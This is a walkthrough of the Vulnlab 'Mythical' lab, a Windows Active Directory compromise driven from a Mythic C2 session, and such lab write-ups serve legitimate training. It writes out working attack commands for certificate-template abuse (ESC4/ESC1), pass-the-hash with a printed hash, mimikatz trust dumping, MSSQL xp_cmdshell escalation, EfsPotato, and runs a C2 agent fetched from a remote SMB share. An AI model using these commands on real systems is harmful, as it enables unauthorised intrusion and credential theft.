 ```yaml
---
cover: https://photos.squarezero.dev/file/abir-images/mythical/logo.png
date: 2025-04-29 09:45:47 +07:00
modified: 2025-04-29 09:45:47 +07:00
categories: Vulnlab
machine_author: 
  name: xct
  link: https://app.hackthebox.com/users/13569
tags: [Mythical, Vulnlab, Mythic C2, SharpHound, BloodHound, rsync, backup enumeration, KeePass, keepass4brute, ADCS, ESC4, ESC1, StandIn, Powerview, Certify, Rubeus, pass-the-cert, PassTheHash, mimikatz, trust account attack, domain trust abuse, service account, MSSQL, Trustworthy Databases, xp_cmdshell, privilege escalation, SeImpersonate, EfsPotato, OpenVPN, domain enumeration, execute_assembly, dotnet binary credential extraction, internal recon, beacon callback, SMBExec, machine account abuse, cert template abuse, NTLM hash dumping, lateral movement, Active Directory, assumed breach]
title: Mythical - Vulnlab
---
```


![](https://photos.squarezero.dev/file/abir-images/htbasset/vulnbanner.png)

Mythical is a medium-difficulty Windows lab that simulates a post-breach assessment within a network hardened after a prior ransomware attack. Initial access is gained through a pre-established Mythic C2 session, allowing enumeration of internal infrastructure via a VPN tunnel. Backup misconfigurations expose sensitive data over rsync, leading to credential recovery from a KeePass database. Active Directory misconfigurations are exploited by escalating an ESC4 certificate template to ESC1, enabling certificate-based impersonation of a domain admin. Cross-domain trust abuse is performed by extracting the trust account hash and reusing it to access another domain, ultimately uncovering embedded credentials in a .NET binary. Privilege escalation is achieved by exploiting the TRUSTWORTHY setting in MSSQL to execute commands as sysadmin, and further access is gained using EfsPotato via SeImpersonate privileges—demonstrating how chained misconfigurations can still lead to complete domain compromise in an environment believed to be secured.


# Enumeration
After signing in with the provided credentials, we're presented with the Mythic C2 dashboard:
![](https://photos.squarezero.dev/file/abir-images/mythical/1.png)

We can see two agents, one of which is active.
![](https://photos.squarezero.dev/file/abir-images/mythical/2.png)

For an interactive shell, we can set both the interval and jitter time to 0. (Note: This is not recommended during real-world engagements.)
![](https://photos.squarezero.dev/file/abir-images/mythical/3.png)

As we already have a domain-joined account, we use SharpHound to collect domain-related information.
![](https://photos.squarezero.dev/file/abir-images/mythical/11.png)

## Port Scan

The user momo is part of two interesting groups: Backup Admins and OpenVPN Administrators.
![](https://photos.squarezero.dev/file/abir-images/mythical/4.png)

The IP configuration shows an active OpenVPN connection.
![](https://photos.squarezero.dev/file/abir-images/mythical/5.png)


We scan the VPN IP range and identify DC01 and the Mythic server. Scanning more internal IPs later reveals another DC, DC02.
![](https://photos.squarezero.dev/file/abir-images/mythical/9.png)
![](https://photos.squarezero.dev/file/abir-images/mythical/10.png)


## Rsync
In the **_install** folder, we find the sqlcmd installer, indicating a MSSQL server is present.
In the **_admin** directory, we find an rsync binary, suggesting rsync was used for backups.
![](https://photos.squarezero.dev/file/abir-images/mythical/6.png)
![](https://photos.squarezero.dev/file/abir-images/mythical/12.png)

Using an rsync client, we enumerate DC01's backup directory, which contains the first flag and a KeePass database.

```powershell
rync.exe -av list-only rsync://192.168.25.1
rync.exe -av rsync://192.168.25.1/mythical /temp
```
![](https://photos.squarezero.dev/file/abir-images/mythical/13.png)

# ADCS
## KeePass
The database version isn’t supported by **keepass2john**. 
![](https://photos.squarezero.dev/file/abir-images/mythical/14.png)

We use [keepass4brute](https://github.com/r3nt0n/keepass4brute) to brute-force it using the CLI version of KeePass.
![](https://photos.squarezero.dev/file/abir-images/mythical/15.png)

Once unlocked, we recover credentials for the domjoin user.
![](https://photos.squarezero.dev/file/abir-images/mythical/16.png)

## ESC 4
We use Certify to enumerate certificate templates and identify one vulnerable to ESC4. It allows enrollment and object control permissions for domain-joined computers.
![](https://photos.squarezero.dev/file/abir-images/mythical/17.png)

Since momo lacks machine account creation privileges, we impersonate domjoin and create a new machine account using **StandIn**.
```powershell
make_token mythical-US\domjoin <password>
execute_assembly -Assembly StandIn.exe -Arguments --computer szz --make
```
![](https://photos.squarezero.dev/file/abir-images/mythical/20.png)
![](https://photos.squarezero.dev/file/abir-images/mythical/21.png)
![](https://photos.squarezero.dev/file/abir-images/mythical/19.png)

We then impersonate this new machine account.
![](https://photos.squarezero.dev/file/abir-images/mythical/22.png)

Using PowerView, we modify the vulnerable certificate template to:

1. Allow domain users to enroll.

2. Enable impersonation of any user.

3. Make the template valid for client authentication
```Powershell
#Enrollment Rights
Add-DomainObjectAcl -TargetIdentity Machine -PrincipalIdentity "Domain Users" -RightsGUID "0e10c968-78fb-11d2-90d4-00c04f79dc55" -TargetSearchBase "LDAP://CN=Configuration,DC=mythical-us,DC=vl"

#Impersonate Any Users
Set-DomainObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=mythical-us,DC=vl" -Identity Machine -XOR @{'mspki-certificate-name-flag'=1} -Verbose

#Authentication Rights
Set-DomainObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=mythical-us,DC=vl" -Identity Machine -Set @{'mspki-certificate-application-policy'='1.3.6.1.5.5.7.3.2'} -Verbose

```
![](https://photos.squarezero.dev/file/abir-images/mythical/23.png)

## ESC 1
We now abuse the modified template to impersonate a Domain Administrator and request a certificate. 
`execute_assembly -Assembly Certify.exe -Arguments request /ca:dc01.mythical-us.vl\mythical-us-DC01-CA /template:Machine /altname:Administrator@mythical-us.vl`
![](https://photos.squarezero.dev/file/abir-images/mythical/24.png)

We export the certificate as .pfx using OpenSSL.
`openssl pkcs12 -in admin.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx`
![](https://photos.squarezero.dev/file/abir-images/mythical/25.png)

We then use Rubeus to get a TGT and extract credentials.
`execute_assembly Rubeus.exe asktgt /user:Administrator /certificate:c:windows\tasks\cert.pfx /ptt /nowrap /getcredentials`
![](https://photos.squarezero.dev/file/abir-images/mythical/26.png)

Finally, we use Pass-the-Hash to execute a beacon as Administrator.
`powershell Invoke-SMBExec -Target 10.10.159.5 -Username administrator -Domain mythical-us.vl -Hash C583EF48C5ED66C727AECB6FAB87AC12 -Command "c:\programdata\google\update.exe"`
![](https://photos.squarezero.dev/file/abir-images/mythical/27.png)
![](https://photos.squarezero.dev/file/abir-images/mythical/28.png)

# Trust Account Abuse
BloodHound reveals a one-way trust from MYTHICAL-EU.VL to MYTHICAL-US.VL, allowing US users to authenticate in EU.
![](https://photos.squarezero.dev/file/abir-images/mythical/29.png)

We dump the trust account NTLM hash using Mimikatz.
`mimikatz "lsadump::trust /patch"`
![](https://photos.squarezero.dev/file/abir-images/mythical/30.png)

We use this hash with Rubeus to authenticate to MYTHICAL-EU.VL.
`execute_assembly -Assembly Rubeus.exe -Arguments asktgt /user:MYTHICAL-US$ /domain:MYTHICAL-EU.VL /rc4:eb921a2b0e9d626559dab0f54fdc6498 /nowrap /ptt`
![](https://photos.squarezero.dev/file/abir-images/mythical/31.png)

Using this ticket, we enumerate shares on DC02 and discover getusers.exe, a .NET binary.
![](https://photos.squarezero.dev/file/abir-images/mythical/32.png)

Disassembling it reveals credentials for svc_ldap.
![](https://photos.squarezero.dev/file/abir-images/mythical/33.png)

# Privilege Escalation
## MSSQL - TRUSTWORTHY Abuse
With svc_ldap credentials, we enumerate AD users on DC02.
`Get-ADUser -Filter * -Server "dc02.mythical-eu.vl" -Property DisplayName, SamAccountName | Select-Object DisplayName, SamAccountName`
![](https://photos.squarezero.dev/file/abir-images/mythical/34.png)

Often time companies reuse passwords for there service and administrative accounts. We check if the svc_ldap password works for svc_sql on the MSSQL server.
`shell  C:\windows\tasks\sql.exe -S tcp:10.10.153.71,1433 -Q "SELECT name, database_id, create_date FROM sys.databases;"`
![](https://photos.squarezero.dev/file/abir-images/mythical/35.png)


We identify that MSDB is TRUSTWORTHY and owned by svc_sql, allowing privilege escalation.
```Powershell
# Trusted Database
shell C:\windows\tasks\sql.exe -S tcp:10.10.153.71,1433 -Q "SELECT a.name,b.is_trustworthy_on FROM master..sysdatabases as a INNER JOIN sys.databases as b ON a.name=b.name;"

# Owners
shell C:\windows\tasks\sql.exe -S tcp:10.10.153.71,1433 -d msdb -Q "SELECT rp.name as database_role, mp.name as database_user from sys.database_role_members drm join sys.database_principals rp on (drm.role_principal_id = rp.principal_id) join sys.database_principals mp on (drm.member_principal_id = mp.principal_id)"
```

Next, we'll use the svc_sql account to create a new stored procedure, escalate its privileges by assigning it the sysadmin role on the SQL server, and then enable xp_cmdshell to execute system commands.
```Powershell
# Give Sysadmin Rights
shell C:\windows\tasks\sql.exe -S tcp:10.10.153.71,1433 -d msdb -Q "CREATE OR ALTER PROCEDURE dbo.sz WITH EXECUTE AS owner AS ALTER SERVER ROLE sysadmin ADD MEMBER [MYTHICAL-EU\svc_sql];"
shell C:\windows\tasks\sql.exe -S tcp:10.10.153.71,1433 -d msdb -Q "EXEC dbo.sz;"

# Enable XP_CMDSHELL
shell C:\windows\tasks\sql.exe -S tcp:10.10.153.71,1433 -d msdb -Q  "EXEC sp_configure 'show advanced options', 1; Reconfigure;"
shell C:\windows\tasks\sql.exe -S tcp:10.10.153.71,1433 -d msdb -Q "EXEC sp_configure 'xp_cmdshell', 1; Reconfigure;"
shell C:\windows\tasks\sql.exe -S tcp:10.10.153.71,1433 -d msdb -Q "EXEC xp_cmdshell 'whoami'"
```
![](https://photos.squarezero.dev/file/abir-images/mythical/36.png)

We host our agent on a shared folder from DC01 and execute it via xp_cmdshell.
```Powershell
# Accessible server
mkdir -Path C:\temp
shell net share temp=C:\temp /grant:everyone,full
cp -Source c:\programdata\google\update.exe -Destination C:\temp\update.exe

# Agent Callback
shell C:\windows\tasks\sql.exe -S tcp:10.10.153.71,1433 -d msdb -Q "EXEC xp_cmdshell '\\10.10.153.69\temp\update.exe'"
```
![](https://photos.squarezero.dev/file/abir-images/mythical/37.png)

## SeImpersonate
The current user has SeImpersonatePrivilege
![](https://photos.squarezero.dev/file/abir-images/mythical/38.png)

We use EfsPotato to impersonate an admin and execute our agent.
`execute_assembly -Assembly EfsPotato_4.0_x64.exe -Arguments \\10.10.153.69\temp\update.exe`
![](https://photos.squarezero.dev/file/abir-images/mythical/39.png)
